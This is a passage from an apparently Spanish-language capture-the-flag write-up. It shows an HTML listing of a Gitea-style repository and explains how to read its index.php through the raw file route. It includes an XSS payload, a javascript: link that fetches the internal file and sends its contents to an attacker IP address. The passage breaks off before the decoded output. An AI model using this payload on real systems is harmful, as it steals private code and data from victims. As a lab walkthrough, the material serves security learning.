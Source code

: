 ```html
                        <a href="/administrator/Employee-management/commit/7fa272fd5c07320c932584e150717b4829a0d0b3" class="default-link muted">Add README.md</a>
					</span>
				</td>
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T04:04:08Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 04:04:08 +00:00</relative-time></td>
			</tr>
			<tr data-entryname="style.css" data-ready="true" class="ready entry">
				<td class="name four wide">
					<span class="truncate">
                        <svg viewBox="0 0 16 16" class="svg octicon-file" aria-hidden="true" width="16" height="16"><path d="M2 1.75C2 .784 2.784 0 3.75 0h6.586c.464 0 .909.184 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v9.586A1.75 1.75 0 0 1 13.25 16h-9.5A1.75 1.75 0 0 1 2 14.25Zm1.75-.25a.25.25 0 0 0-.25.25v12.5c0 .138.112.25.25.25h9.5a.25.25 0 0 0 .25-.25V6h-2.75A1.75 1.75 0 0 1 9 4.25V1.5Zm6.75.062V4.25c0 .138.112.25.25.25h2.688l-.011-.013-2.914-2.914z"/></svg>
                        <a class="muted" href="/administrator/Employee-management/src/branch/main/style.css" title="style.css">style.css</a>
					</span>
				</td>
				<td class="message nine wide">
					<span class="truncate">
                        <a href="/administrator/Employee-management/commit/a8dd0449c9f2702c8600ef686ef5f43dec953ebd" class="default-link muted">Upload files to &#34;/&#34;</a>
					</span>
				</td>
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T01:38:13Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 01:38:13 +00:00</relative-time></td>
			</tr>
	<footer class="page-footer" role="group" aria-label="Footer">
        ...
    </footer>
	...
</body>
</html>
```

De todos los archivos expluestos vamos a por ejemplo leer el `index.php`. Para ello podemos acceder con la ruta `/administrator/Employee-management/src/branch/main/index.php` o podemos acceder a el en formato `raw` con la ruta `/administrator/Employee-management/raw/branch/main/index.php` para ahorrarnos tiempo de buscar el código en el `html`.

El payload se verá de la siguiente manera:

```html
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(res => res.text().then(text => fetch('http://10.10.14.191/?body=' + encodeURIComponent(text))))">XSS test</a>
```

Repetimos todo el proceso y debería llegarnos el código que decodificado será el siguiente:
